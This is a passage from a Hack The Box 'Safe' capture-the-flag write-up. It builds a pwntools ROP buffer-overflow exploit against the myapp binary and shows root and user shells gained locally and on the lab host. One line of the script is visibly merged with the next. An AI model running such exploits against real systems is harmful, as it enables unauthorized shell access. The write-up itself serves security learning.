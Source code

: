 ```text
0x0000000000401206: pop r13; pop r14; pop r15; ret;
```

**Step \#5: Write out the exploit**

We have all the necessary information we need to write out our exploit. I use pwn tools to automate the process.

```text
from pwn import *# initial configuration
p = process("./myapp")
context(os="linux", arch="amd64")# parameters
junk = "A" * 112 # offset - 8
cmd = "/bin/sh\x00" # argument that will be passed to RPB
pop_r13 = p64(0x401206) # pop r13
random = p64(0x000000) # random value that will be put into r14 and r15
mov_rsp_to_rdi = p64(0x401152) # mv rdi, rsp
system = p64(0x401040)# buffer
buf = junk + cmd #get to the RBP and pass the /bin/sh string
buf += pop_r13 # pop r13
buf += system # set r13 to system call
buf += random + random # pop r14, pop r15 
buf += mov_rsp_to_rdip.recvline()
p.sendline(buf)
p.interactive()
```

What the above script does is it pushes the RBP register, which contains the /bin/sh string, on the stack that eventually ends up in the RDI register. Then we use r13 to make the program jump to the system function and run /bin/sh which give us a shell.

Run the exploit and we get a shell!

```text
root@kali:~/Desktop/htb/safe# python safe.py
[+] Starting local process './myapp': pid 4562
[*] Switching to interactive modeWhat do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To test it on the Safe box, make the following changes in the script.

```text
p = remote("10.10.10.147", 1337)                                                                            
#p = process("./myapp")
```

Run the exploit and we get a shell!

```text
root@kali:~/Desktop/htb/safe# python safe-prod.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
$ whoami
user
$ hostname
safe
```
